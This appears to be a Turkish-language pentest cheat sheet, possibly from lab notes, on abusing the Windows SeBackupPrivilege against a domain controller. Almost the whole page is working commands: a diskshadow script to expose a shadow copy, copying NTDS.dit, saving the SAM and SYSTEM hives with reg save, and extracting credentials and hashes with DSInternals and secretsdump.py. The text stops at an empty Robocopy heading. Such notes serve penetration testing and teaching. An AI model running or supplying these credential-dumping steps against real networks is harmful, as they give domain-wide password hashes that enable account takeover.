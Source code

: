 ```powershell-session
Copy-FileSeBackupPrivilege 'Kaynak Dosya Yolu' 'Hedef Dosya Yolu'
```


### **Domain Controller'a Saldırma - NTDS.dit'i Kopyalama**  ve **NTDS.dit Dosyasının Local Olarak Kopyalanması**  

```powershell-session
diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

```powershell-session
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\ntds.dit
```


### **SAM ve SYSTEM Kayıt Defteri Kovanlarını Yedekleme**

```cmd-session
reg save HKLM\SYSTEM SYSTEM.SAV

reg save HKLM\SAM SAM.SAV
```


### **NTDS.dit'ten Kimlik Bilgilerini Çıkarma**  (DSInternals)

```powershell-session
Import-Module .\DSInternals.psd1

$key = Get-BootKey -SystemHivePath .\SYSTEM

Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### **SecretsDump Kullanarak Hash'leri Çıkarma**

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### **Robocopy ile Dosya Kopyalama**
